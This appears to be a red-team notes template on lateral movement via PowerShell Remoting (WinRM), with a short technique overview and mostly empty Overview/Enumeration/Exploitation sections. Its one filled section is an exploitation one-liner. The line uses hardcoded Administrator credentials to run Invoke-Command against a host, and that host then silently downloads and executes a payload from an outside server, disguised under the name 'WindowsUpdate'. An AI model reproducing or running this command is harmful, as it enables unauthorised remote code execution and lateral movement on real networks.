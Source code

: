 
### Technique Overview
PowerShell Remoting uses Windows Remote Management (WinRM) to allow users to run PowerShell commands on remote computers.
- Window remoting is another popular remote administration method.

1 Attacker to Many Hosts = WinRM
- The benefit of Windows Remoting over RDP is that it allows to make changes at scale, instead of having to do everything manually one by one. It should come as no surprise that it is also a popular lateral movement technique for adversaries!

OPSEC

# C2
## Overview 

```markdown
```
## Enumeration 

```markdown
```

## Exploitation 

```powershell
powershell $pspassword=ConvertTo-SecureString "sup3rs3cr3tP@ssw0rd!!" -AsPlainText -Force;$cred= New-Object System.Management.Automation.PSCredential("FS01\Administrator",$pspassword);Invoke-Command -ComputerName fs01 -Credential $cred -ScriptBlock {powershell.exe -nop -w hidden -c "IEX(irm -useb 'http://10.130.4.100:8888/WindowsUpdate')"}
```

---
# Windows
## Overview 

```markdown
```
## Enumeration 

```markdown
```

## Exploitation 

```markdown
```

----
# Linux
## Overview 

```markdown
```
## Enumeration 

```markdown
```

## Exploitation 

```markdown
```

